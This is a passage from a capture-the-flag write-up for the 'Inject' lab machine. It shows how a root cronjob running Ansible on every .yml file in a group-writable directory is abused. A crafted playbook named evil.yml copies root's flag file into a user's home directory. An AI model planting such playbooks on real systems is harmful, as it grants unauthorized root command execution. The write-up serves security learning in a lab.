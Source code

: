 We have found a playbook on the box. It's owned by `root`, so it's likely that it is being run by `root`. We can confirm this using [pspy](https://github.com/DominicBreuker/pspy). 

After dropping `pspy` onto the box and letting it run for a bit, we can see the following line among the output:

```
2023/12/10 02:16:01 CMD: UID=0     PID=54840  | /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml
```

There must be a cronjob owned by `root` that is periodically executing *all* `.yml` files in the `/opt/automation/tasks` directory with Ansible. We know that it is executing *all* `.yml` files because of the `*.yml` syntax. We can also see that the `tasks` directory that contains the playbook is writeable by the `root` user, and the `staff` group (of which `phil` is a member). 

```
phil@inject:~$ ls -la /opt/automation
total 12
drwxr-xr-x 3 root root  4096 Oct 20  2022 .
drwxr-xr-x 3 root root  4096 Oct 20  2022 ..
drwxrwxr-x 2 root staff 4096 Dec 10 08:54 tasks
phil@inject:~$ id
uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)
```

Based on the information we've gathered, we know that we can use a malicious Ansible playbook file to execute commands as `root`. To do this, we take a copy of the playbook that we found and modify it to include our own command to execute using the [shell](https://docs.ansible.com/ansible/latest/collections/ansible/builtin/shell_module.html#examples) Ansible module. 

```yml
- hosts: localhost
  tasks:
  - name: muahahahaha
    shell: cat /root/root.txt > /home/phil/root.txt
```

We can now copy this playbook into the `/opt/automation/tasks` directory and wait for it to be executed. 

```bash
phil@inject:~$ cp evil.yml /opt/automation/tasks
```

This will place a copy of the flag in `phil`'s home directory. *Don't forget to remove the flag copy once you're done with it!*

Congratulations, you just pwned Inject!

# References

- [Spring CVE-2022-22963 Security Advisory](https://spring.io/security/cve-2022-22963)
- [CVE-2022-22963 Exploit](https://github.com/randallbanner/Spring-Cloud-Function-Vulnerability-CVE-2022-22963-RCE)
- [Ansible Documentation - Shell](https://docs.ansible.com/ansible/latest/collections/ansible/builtin/shell_module.html#examples)

# Tools Used

- [nmap](https://nmap.org)
- [Burp Suite](https://portswigger.net/burp/communitydownload)